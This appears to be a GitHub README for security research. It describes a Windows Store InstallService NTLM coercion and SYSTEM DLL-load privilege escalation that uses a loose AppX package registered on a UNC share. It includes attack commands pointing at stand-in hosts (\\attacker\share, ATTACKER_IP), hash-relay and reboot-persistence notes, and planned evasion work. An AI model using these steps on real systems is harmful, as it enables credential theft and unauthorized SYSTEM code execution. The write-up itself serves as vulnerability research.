







# UNCanny Coerce

Hi! it's been almost a year since i disappeared from the public red team community for several personal reasons. anyways, the main inspiration behind this research is pretty simple. i wanted to bring something different to my GitHub for a change, and from the technical side i wanted to find my own coercion technique.

my initial focus was discovering new RPC attack surfaces, and i ended up finding plenty of interesting stuff along the way that i might post about later. but after seeing microsoft finally adding RPC activity monitoring (https://techcommunity.microsoft.com/blog/microsoftdefenderatpblog/microsoft-defender-now-monitors-rpc-activity/4523368), i decided to continue in a different direction.

it has been a long fight between RPC and the security community. we've already seen plenty of research in this area starting with PetitPotam, which microsoft says is patched, but the story is a bit more complicated than that. at the end of the day, a lot of these coercion vectors are really just features being used in ways they weren't originally intended to be used.

because of the limitation that comes with this technique, i decided to publish my notes anyway. it might still be helpful for someone digging into the same area, even if it is not something i would consider reliable or useful for real red team ops.

---

shortly this primitive is:

> a normal user hands the windows store install service some install metadata -> the service, running as local system, resolves a "plugin" for that work -> the resolver ends up doing `LoadLibraryW` on a path the user influenced -> that path is a UNC -> outbound NTLM as the machine account.

the component is the windows store install service world: `InstallService.dll` hosted in `InstallService.exe`, running as `NT AUTHORITY\SYSTEM`.

## finding the weird surface

The rabbit hole started with `InstallService.dll`. i was looking at windows components that install packages, restore state after reboot, resume failed jobs, read local/remote content, and load plugins. anything that has those four things together usually has a boundary confusion somewhere:

- it has a public-ish caller side because normal userland needs to request installs
- it has a privileged worker side because package install/state management needs service rights
- it has serialization because work must survive reboot
- it has plugin loading because windows likes making simple things modular and scary

The interesting runtime class was:

```text
Windows.Internal.InstallService.Control.InstallServiceControl
IID:    e4893a99-9270-42b9-9a62-683d6ceed250
method: vtable slot 8  ->  CreateInstallServiceWork(cv, caller, _, _, propertiesJson, optionsJson, out items)
```



that `propertiesJson` parameter is where the fun lives. install behaviour is described by json fields like `FulfillmentPluginId`, `SourceUri`, `PackageFamilyName`, `SerializedFulfillmentData`, `SkipCatalogLookup`, `ProductId`, `SkuId`.

At first i thought the bug was going to be "put a UNC in `SourceUri` and let the service read it". that would have been beautiful, but windows was not that generous. i reversed the built-in fulfillment path (`CreateInstallServiceWorkFromBridge`, `InstallService.dll`) and the built-in plugins just don't do that:

- `WU` parses the json and goes out over WinHTTP / Delivery Optimization. never SMB.
- `ChainedWork` and `XVC` are the same story or are not even present on a client.
- a raw `SourceUri` either gets rejected fast or routed into catalog validation. `CreateCatalogItemFromLocalData` despite the name builds a catalog item from the in-memory serialized json, it does not go open a file.

So the naive idea is a dead end, this feature is very intersting and i'm doing other research primitives on it too and that is worth saying out loud so nobody wastes a week on it :)

## SYSTEM touch a path

the only place in the whole create/restore flow where the service touches an attacker-influenced path is plugin activation. the function is `PluginHelpers::ActivatePlugin`. it resolves `FulfillmentPluginId` in this order:

1. `"WU"` -> built-in
2. `"ChainedWork"` -> built-in
3. value found in `StaticPluginMap` (HKLM) -> `CoCreateInstance` a CLSID, or activate a WinRT class
4. `"XVC"` -> xbox factory
5. **anything else -> treat it as a package family name.** `FindPackagesForUser(pfn)` -> take that package's `InstalledLocation.Path` -> `LoadLibraryW( path + "\InstallServicePlugin.dll" )` -> `GetProcAddress("ActivatePlugin")`

branch 5 is the one and `PluginHelpers::IsPluginAvailable` confirms the gate: it returns true for any `FulfillmentPluginId` that matches an installed package, via the exact same `FindPackagesForUser` lookup.



so if a `FulfillmentPluginId` points at a package whose `InstalledLocation` is a **UNC**, then `InstallService.exe` running as SYSTEM does:

```text
LoadLibraryW( \\attacker\share\InstallServicePlugin.dll )
```

`LoadLibraryW` has to connect to `\\attacker\share` and authenticate before it can find out the dll isn't there and that authentication is the coercion and the dll never has to exist.



## the actual primitive

the only question left is "how does a normal user get a package whose `InstalledLocation` is a UNC". the answer is loose-file registration, which is a per-user, non-elevated operation:

```text
Add-AppxPackage -Register \\attacker\share\AppxManifest.xml
```

windows registers the package "in place", so the registered `InstalledLocation` is literally the UNC you pointed at. then you trigger the work with that package's family name as the plugin id.

1. `Add-AppxPackage -Register \\attacker\share\AppxManifest.xml`
2. `CreateInstallServiceWork( FulfillmentPluginId = <that package's PFN> )`

caller is a normal user, the network authentication is the machine account.



low-priv user triggered it, machine account authenticated. windows' own loader did the UNC touch, not the caller.



## attacker side

two things to sort before running:

- impacket-smbserver reports filesystem type `XTFS`. AppX refuses to register on non-NTFS shares (`0x80073CFD`). patch the `FileSystemName` field in `impacket/smbserver.py` to `NTFS`.

- the share needs `AppxManifest.xml`, `logo.png`, `dummy.exe`. no `InstallServicePlugin.dll` needed. `MaxVersionTested` in the manifest must be ≤ target build (`winver` on the target to check).

You can run `poc/setup.sh` from the repo root on Kali. it populates the share, patches impacket, stages `poc.ps1` on the target via smbclient if `TARGET_IP` and `TARGET_CREDS` are set, and starts the server ;-)

then on Win10 as the low-priv user from an interactive session:

```powershell
powershell -ExecutionPolicy Bypass -File poc.ps1 -AttackerHost ATTACKER_IP -Share coerce
```

## it repeats on its own

the work the trigger creates is queued, and the queue retries. in my lab the service re-issued the `LoadLibraryW(UNC)` on its own without me touching the box again, so the machine-account auth showed up on each retry while the work item lived.

the work item is queued to disk and replays on reboot. a single trigger keeps coercing the machine account on every restart until the package is removed (`Remove-AppxPackage DiscCoerceProbe_*`). not code-execution persistence on its own, but if you relay the first auth to land `InstallServicePlugin.dll` at the UNC, every retry after that runs your code as SYSTEM.

## the non-admin story

confirmed end to end as a real standard user. `coercelow`, `Users` only, medium integrity `S-1-16-8192`, `IsAdmin=False`. from that session i registered the UNC package (`InstalledLocation = \\ATTACKER_IP\coerce`) and called `CreateInstallServiceWork`, and the Kali listener caught `MY-WIN10$` immediately and again on every queue retry. the smb screenshot above is that capture.

`Add-AppxPackage -Register` deploys into the logged-on user's session, so that user needs an interactive session. session-0 with nobody logged on fails `0x80073D19`.

the only real precondition is **Developer Mode** on the target. common on dev/engineering machines, not on locked-down endpoints. removing it is the open lead, see limitations.

## LPE

there is a second side to the same bug that is more direct than coercion. if `InstallServicePlugin.dll` actually exists on the UNC package path, the service still reaches the same `LoadLibraryW(\\attacker\share\InstallServicePlugin.dll)` branch, but this time the loader succeeds and the dll is mapped inside the store install service process as `NT AUTHORITY\SYSTEM`.

so i got hyped trying to proof for this issue and wrote the poc in `lpe/`. the important thing is not another package registration trick, it is the same registered loose package being reused as the plugin package. the harness asks the low-priv user's package family name with `Get-AppxPackage`, passes that PFN as `FulfillmentPluginId`, sets `SkipCatalogLookup=true`, and includes `SerializedFulfillmentData`. that last field matters because `InstallQueue2::CreateWork` rejects the request with `0x80070057` if catalog lookup is skipped without fulfillment data.

it's very important to note about something took long time in troubleshooting which is that **impacket cannot serve a loadable image.** it answers the reads well enough for the machine account to authenticate, so the coercion path is perfectly happy, but `LoadLibraryW` against an impacket share comes back null with `ERROR_INVALID_HANDLE` and `DllMain` never runs. serve the exact same files with a real SMB server (Samba) and the load succeeds. Samba reports `NTFS` by default so the loose registration still goes through. so the rule is simple: impacket when you only want the hash, Samba when you want the dll to actually execute as SYSTEM!

on a real run, triggered by the low-priv user, `uncanny_lpe.txt` shows the dll mapped into `svchost.exe` and the token resolving to `NT AUTHORITY\SYSTEM` / `S-1-5-18`, which is the screenshot below.



`CreateInstallServiceWork` still returns `0x800706BE` with this demo dll because `DllMain` already ran by the time the service asks for the real plugin interface and gives up :-)





## limitations

The limitation is actually the reason i decided to publish this technique - **developer mode must be enabled to perform it.**

the whole thing hinges on `InstalledLocation.Path` being a UNC path, and after spending a lot of time digging through it, i only found one way to make that happen. a normal signed install copies the package into `C:\Program Files\WindowsApps\...`, sets `InstalledLocation` there, and that's always a local path.

the only registration path i found that keeps the files where they already are, including on a UNC share, is loose-file registration (`Add-AppxPackage -Register <manifest>`). that's exactly what Developer Mode (`AllowDevelopmentWithoutDevLicense` under `HKLM\...\AppModelUnlock`) unlocks.

the reason it is gated makes sense. loose registration basically creates a trusted package identity from arbitrary unsigned files sitting at a location you control, which completely sidesteps the normal store and signing trust model. because of that, Developer Mode has to be enabled, and that's currently the biggest limitation of the technique.

the interesting part is that the `InstallService` side doesn't really care and once such a package exists, branch 5 of `ActivatePlugin` will happily call `LoadLibraryW` on whatever `InstalledLocation.Path` it receives. the entire problem is getting a package whose install location points at a UNC path in the first place without needing Developer Mode.

so i started reversing the guard rails looking for another way in.

the Developer Mode check doesn't live inside `InstallService` at all. it sits inside the AppX deployment stack (`AppXDeploymentServer.dll` and the deployment licensing policy) and ultimately reads `HKLM\...\AppModelUnlock`, which is admin-controlled. there is nothing a normal user can flip there.

i also chased what seemed like the obvious bypass such like sideloading

i tested it with sideloading enabled and Developer Mode disabled (`IsSideloadingEnabled=1`, `IsDeveloperModeEnabled=0`). the loose registration immediately failed and complained that the package origin was `Unsigned` and that no valid license or sideloading policy could be applied.

there are still a few routes i haven't fully ruled out yet you can dig if you want:

* `StaticPluginMap` combined with a COM search-order hijack
* `-ExternalLocation` and external package content
* symlinks or junctions
* per-user COM hijacking through `HKCU\...\CLSID`

## detections?

Elastic will get this covered in a day probably.

## todo

- [ ] **BOF port**
- [ ] **standalone chainer script exploit**
- [ ] **StaticPluginMap + COM search-order hijack**
- [ ] **AV/EDR detection surface & opsec saftey shit**

---

> - i'm not responsible for how this information is used. this research is published for educational purposes at the end of the day, and also may help improve understanding of the attack surface.
